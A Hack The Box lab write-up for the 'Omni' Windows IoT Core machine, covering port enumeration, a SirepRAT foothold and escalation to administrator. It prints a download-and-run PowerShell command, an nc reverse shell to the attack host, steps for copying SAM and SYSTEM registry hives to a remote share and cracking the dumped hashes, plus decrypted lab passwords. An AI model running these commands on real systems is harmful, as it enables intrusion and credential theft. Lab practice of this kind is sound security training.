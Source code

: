 ```yaml
---
title: "[HTB] Machine: Omni"
description: "[HTB] Machine: Omni"
date: 2023-07-05
menu:
  sidebar:
    name: "[HTB] Machine: Omni"
    identifier: htb-machine-omni
    parent: htb-machines-windows
    weight: 10
hero: images/omni.png
tags: ["HTB", "windows-iot-core","powershell-credentials","sirep", "secretsdump", "windows-device-portal"]
---
```


# Omni
## Enumeration
- ```nmap```
```
└─$ nmap -p135,5985,8080,29817,29819,29820 -Pn 10.10.10.204 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 19:00 BST
Nmap scan report for 10.10.10.204 (10.10.10.204)
Host is up (0.16s latency).

PORT      STATE SERVICE
135/tcp   open  msrpc
5985/tcp  open  wsman
8080/tcp  open  http-proxy
29817/tcp open  unknown
29819/tcp open  unknown
29820/tcp open  unknown
```
```
└─$ nmap -p135,5985,8080,29817,29819,29820 -Pn -sC -sV 10.10.10.204 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 19:00 BST
Nmap scan report for 10.10.10.204 (10.10.10.204)
Host is up (0.14s latency).

PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.93%I=7%D=7/5%Time=64A5AFBD%P=x86_64-pc-linux-gnu%r(NU
SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
SF:9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.05 seconds
```
- Port `8080`

![](./images/1.png)

- `rpcclient`

![](./images/2.png)

- Other open ports indicate that it uses [Windows IOT Core](https://developer.microsoft.com/en-us/windows/iot/)
  - https://social.msdn.microsoft.com/Forums/vstudio/en-US/75314423-de13-4eff-bd15-0fec8b9c1da4/ports-open?forum=WindowsIoT
  - https://www.blackhat.com/docs/us-16/materials/us-16-Sabanal-Into-The-Core-In-Depth-Exploration-Of-Windows-10-IoT-Core-wp.pdf
## Foothold
- Googling more about the ports revealed the following [github page](https://github.com/SafeBreach-Labs/SirepRAT) indicating `Sirep` protocol
  - Check the [docs](https://github.com/SafeBreach-Labs/SirepRAT/tree/master/docs) for more info about the 
  - We can test the exploit

![](./images/3.png)

- Now let's try getting the reverse shell
  - I tried running `powershell -c iex(new-object net.webclient).downloadstring("http://10.10.16.12:8000/shell.ps1")`, which failed

![](./images/4.png)

- So I tried simply downloading the shell using `Invoke-WebRequest` which is worked
  - But it is better to download it to the [writable folder](https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs), for example to `C:\Windows\System32\spool\drivers\color`
  - I tried running powershell's versions of reverse shell, had no success
  - So I used `nc`: `/c c:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.16.12 6666`

![](./images/5.png)

![](./images/6.png)

## User
- If we check the `c:` drive, we have a `data` folder
  - No users `c:\Users`
  - But there are users in `c:\Data\Users\`

![](./images/7.png)

- If we check the folders, we can the flags but they are PSCredential files
  - We need a passwords to decrypt them

![](./images/8.png)

- Since we are `SYSTEM` we can dump the SAM hashes
  - Start `smbserver` on attack box: `impacket-smbserver share . -smb2support -username pentest -password pentest`
  - Mount the share to the box: `net use \\10.10.16.12\share /u:pentest pentest`
  - Dump the hives to the share:
    - `reg save HKLM\sam \\10.10.16.12\share\sam`
    - `reg save HKLM\system \\10.10.16.12\share\system`
    - `reg save HKLM\security \\10.10.16.12\share\security`
  - Dump the hashes: `impacket-secretsdump -sam sam -security security -system system LOCAL`
  - Crack the `app` user's hash: `hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt`
    - `app:mesh5143`

![](./images/9.png)

![](./images/10.png)

![](./images/11.png)

![](./images/12.png)

![](./images/13.png)

- Creds work to access the page on port `8080`
  - Get reverse shell

![](./images/14.png)

![](./images/15.png)


- Now we can decrypt the flag using `Import-CliXml`
  - `(Import-CliXml -Path user.txt).GetNetworkCredential().Password`

![](./images/16.png)

## Root
- We find interesting files inside `app`'s folder: `hardening.txt` and `iot-admin.xml`
  - `iot-admin.xml` is also PSCredential file
    - We can decrypt the same way as the flag: `(Import-CliXml -Path iot-admin.xml).GetNetworkCredential() | fl`
      - `administrator:_1nt3rn37ofTh1nGz`

![](./images/17.png)

- Let's get reverse shell the same way as before via port `8080`
  - `(Import-CliXml -Path root.txt).GetNetworkCredential().Password`

![](./images/18.png)
